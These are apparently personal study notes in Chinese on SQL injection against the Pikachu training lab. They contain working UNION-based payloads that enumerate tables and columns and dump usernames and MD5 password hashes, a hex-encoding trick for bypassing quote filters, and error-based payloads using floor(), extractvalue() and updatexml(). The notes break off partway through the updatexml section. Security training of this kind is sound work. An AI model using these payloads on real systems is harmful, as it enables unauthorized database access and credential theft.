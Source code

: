 ```
http://192.168.1.163/pikachu/vul/sqli/sqli_str.php?name=12312'   union select  table_name,2  from information_schema.tables  where table_schema='pikachu' limit 1,1--+&submit=æ¥è¯¢

全部行一起取出来: 结合group_concat       httpinfo,member,message,users,xssblind 
select  group_concat(table_name),2  from information_schema.tables  where table_schema='pikachu'

6. 分析表中可能存储什么数据,一般获取  重要数据  users
直接全部一次性获取   id,username,password,level 
select  group_concat(column_name),2  from information_schema.columns  where table_schema='pikachu' and table_name='users'

如果在数字型注入过程中，后端对引号做了过滤，那么条件中写的字符串可以转为16进制方式
select  group_concat(column_name),2  from information_schema.columns  where table_schema=0x700069006B006100630068007500 and table_name=0x75007300650072007300

7. 获取具体的数据
select  group_concat(username),group_concat(password)  from users
账号:admin,pikachu,test 
密码：e10adc3949ba59abbe56e057f20f883e,670b14728ad9902aecba32e22fa4f6bd,e99a18c428cb38d5f260853678922e03
```

![image-20230921000011037](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230921000011037.png)

## 报错注入

***利用前提 没有显示位,但是又输出SQL语句执行错误的函数例如mysql_error  优点不需要显示位,缺点以来SQL语句报错函数***

把你想要的值通过报错输出回来 

有三个常有函数

**floor() count()不会计算空值  concat中的0x7e必须带,报错的关键,分割字符串可以在concat前面使用substr mid等  相关详细解释参考网址 https://www.cnblogs.com/sfriend/p/11365999.html**

```
http://127.0.0.1/pikachu/vul/sqli/sqli_str.php?name=' or (select count(*) from information_schema.columns group by concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand(0)*2))) --+&submit=æ¥è¯¢
```

 

**extractvalue(xml_document,xpath_string) xml_document(string格式,是xml的文档名称) xpath_string(xpath格式字符串,可以替换成你要输出的函数) concat中的0x7e必须带,报错的关键,分割字符串可以在concat前面使用substr mid等**

```
?id= 1' and extractvalue(1,concat(0x7e,(select database()),0x7e))--+

1’ and (extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e))) #
```



**updataxml(xml_document,xpath_string,new_value) xml_document(string格式,是xml的文档名称) xpath_string(xpath格式字符串,可以替换成你要输出的函数) new_value(替换的值) concat中的0x7e必须带,报错的关键,分割字符串可以在concat前面使用substr mid等**
